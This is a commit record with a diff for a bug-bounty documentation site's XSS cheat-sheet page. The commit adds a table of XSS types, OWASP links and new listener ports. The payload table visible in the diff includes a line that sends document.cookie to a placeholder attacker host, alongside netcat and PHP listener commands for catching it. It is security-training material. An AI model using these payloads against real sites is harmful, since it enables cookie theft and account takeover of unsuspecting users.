

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/cross-site-scripting-(xss).md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
update XSS page

```diff
--- a/docs/bug-bounty-guide/cross-site-scripting-(xss).md
+++ b/docs/bug-bounty-guide/cross-site-scripting-(xss).md
@@ -1,6 +1,16 @@
 # Cross-Site Scripting (XSS)
 
+## Types of XSS
+There are three main types of XSS vulnerabilities:
+
+| Type                | Description                                                                 |
+|---------------------|-----------------------------------------------------------------------------|
+| Stored (Persistent) XSS | Occurs when user input is stored in a database and displayed (e.g., posts). |
+| Reflected (Non-Persistent) XSS | Occurs when input is processed and shown without storage (e.g., search).   |
+| DOM-based XSS       | Occurs when input is client-side processed and displayed (e.g., parameters).|
+
 ## XSS Payloads
+
 | Code | Description |
 |------|-------------|
 | `<script>alert(window.origin)</script>` | Basic XSS Payload |
@@ -16,8 +26,14 @@
 | `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
 
 ## Commands
+
 | Command | Description |
 |---------|-------------|
 | `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run xsstrike on a url parameter |
-| `sudo nc -lvnp 80` | Start netcat listener |
-| `sudo php -S 0.0.0.0:80` | Start PHP server |
+| `sudo nc -lvnp 8080` | Start netcat listener |
+| `sudo php -S 0.0.0.0:8080` | Start PHP server |
+
+## Useful Links
+
+- [OWASP XSS](https://owasp.org/www-community/attacks/xss/)
+- [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
```
